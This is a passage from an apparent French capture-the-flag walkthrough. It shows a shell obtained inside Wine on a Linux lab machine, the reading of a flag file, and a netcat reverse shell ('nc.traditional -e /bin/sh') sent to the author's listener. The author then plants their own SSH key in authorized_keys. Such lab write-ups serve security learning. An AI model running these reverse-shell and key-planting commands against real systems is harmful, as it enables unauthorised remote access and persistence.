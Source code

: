 ```shellsession
Directory of Z:\home\fox

05/11/2022     14:03  <DIR>         .
14/11/2020     18:09  <DIR>         ..
15/11/2020     11:03  <DIR>         Desktop
15/11/2020     11:03  <DIR>         Documents
15/11/2020     11:03  <DIR>         Downloads
05/11/2022     14:03             0  iphist.dat
15/11/2020     11:03            33  local.txt
15/11/2020     11:03  <DIR>         Music
15/11/2020     11:03  <DIR>         Pictures
15/11/2020     11:03  <DIR>         Public
15/11/2020     11:03           121  startup
15/11/2020     11:03  <DIR>         Templates
15/11/2020     11:03  <DIR>         Videos
       3 files                      154 bytes
      10 directories      3,982,213,120 bytes free
Z:\home\fox>type local.txt
ea2188e08f77470c2c9918ba06f566f7
```

On est bien dans le home de l'utilisateur *fox* mais on a visiblement récupéré un shell dans Wine. Le premier signe c'est que l'on sait que l'OS tourné par VirtualBox est un Linux. Le second signe c'est la lettre Z utilisée pour le volume servant de racine Linux qui est spécifique à Wine.

On peut tout à fait utiliser les commandes Windows pour créer le dossier *.ssh* et placer notre clé publique dans *authorized_keys* mais il est aussi possible de faire exécuter des  commandes Linux depuis Wine. Le seul inconvénient c'est qu'on aura pas l'output.

J'ai remarqué que dans *Z:\bin\* on retrouvait le binaire *nc.traditional* qui dispose de l'option *-e* très pratique pour obtenir un shell :

```powershell
Z:\home\fox>start /unix /bin/nc.traditional -e /bin/sh 192.168.56.1 9999
```

Et sur le *ncat* que j'ai mis préalablement en écoute :

```shellsession
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.46.
Ncat: Connection from 192.168.56.46:45438.
id
uid=1001(fox) gid=1001(fox) groups=1001(fox)
mkdir .ssh
cd .ssh
echo ssh-rsa --- snip ma clé publique snip --- > authorized_keys
```

Une fois connectée par ssh (enfin) je remarque dans les process le programme qui nous a fournit notre porte d'entrée :
